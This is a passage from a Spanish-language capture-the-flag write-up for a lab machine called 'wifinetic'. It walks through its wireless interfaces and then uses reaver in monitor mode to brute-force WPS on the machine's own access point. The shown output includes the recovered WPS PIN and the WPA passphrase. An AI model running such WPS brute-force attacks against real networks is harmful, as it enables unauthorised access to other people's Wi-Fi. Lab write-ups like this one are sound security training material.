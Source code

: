 ```bash
netadmin@wifinetic:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:bc:43 brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.247/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:bc43/64 scope link 
       valid_lft forever preferred_lft forever
3: wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 02:00:00:00:00:00 brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.1/24 brd 192.168.1.255 scope global wlan0
       valid_lft forever preferred_lft forever
    inet6 fe80::ff:fe00:0/64 scope link 
       valid_lft forever preferred_lft forever
4: wlan1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 02:00:00:00:01:00 brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.23/24 brd 192.168.1.255 scope global dynamic wlan1
       valid_lft 23170sec preferred_lft 23170sec
    inet6 fe80::ff:fe00:100/64 scope link 
       valid_lft forever preferred_lft forever
5: wlan2: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc mq state DOWN group default qlen 1000
    link/ether 02:00:00:00:02:00 brd ff:ff:ff:ff:ff:ff
6: hwsim0: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ieee802.11/radiotap 12:00:00:00:00:00 brd ff:ff:ff:ff:ff:ff
7: mon0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UNKNOWN group default qlen 1000
    link/ieee802.11/radiotap 02:00:00:00:02:00 brd ff:ff:ff:ff:ff:ff
```

Vamos a darle una explicación a esto; `wlan0` y `wlan1` parecen ser las interfaces de la red WiFi, por las IPs asignadas podemos pensar que una funciona como un gateway y otra como un simple cliente, `wlan2` parece estar en desuso y `hwsim0` junto a `mon0` son interfaces que están en modo monitor. El programa que vimos antes (`reaver`) es una utilidad que sirve para efectuar ataques de fuerza bruta a puntos de acceso que tengan la función WPS activada, para después aprovecharse del mismo protocolo de esta para sacar en texto claro la clave del punto de acceso. Sabiendo esto vamos bien, ¿pero a quién vamos a atacar?

Recuerda que nos hemos metido a un "router", y el "router" anuncia la red WiFi... **por lo que vamos a hacer que la máquina se ataque a ella misma**. La dirección MAC del punto de acceso podemos obtenerla de la interfaz `wlan0`, osease el BSSID `02:00:00:00:00:00`

Lanzando un ataque de fuerza bruta hacia la misma máquina utilizando la interfaz `mon0`, podremos obtener la passphrase de la red WiFi

```bash
netadmin@wifinetic:~$ reaver -i mon0 -b '02:00:00:00:00:00'

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Received beacon from 02:00:00:00:00:00
[!] Found packet with bad FCS, skipping...
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'
```
